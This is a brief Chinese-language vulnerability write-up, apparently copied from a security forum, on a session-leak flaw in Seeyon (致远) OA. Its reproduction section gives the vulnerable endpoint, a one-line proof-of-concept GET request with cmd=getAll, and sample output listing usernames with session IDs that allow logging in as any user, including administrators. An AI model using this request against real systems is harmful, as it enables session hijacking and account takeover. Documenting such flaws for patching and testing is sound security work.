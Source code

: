 # 致远OA Session泄漏漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3345](https://www.zhihuifly.com/t/topic/3345)

# 致远OA Session泄漏漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

##### 漏洞位置:

```
http://www.0-sec.org/yyoa/ext/https/getSessionList.jsp 
```

##### 漏洞详情:

```
当cmd参数为getAll时，便可获取到所有用户的SessionID利用泄露的SessionID即可登录该用户，包括管理员 
```

##### 请求方式:

```
Get 
```

##### POC:

```
http://www.0-sec.org/yyoa/ext/https/getSessionList.jsp?cmd=getAll 
```

##### 回显内容

```
weiph 9EA4F8832FA1C9BA99E3D13E2F01CAF7zhaozy F9244E7F1B8C39BB8919FAE8E19ED16A 
```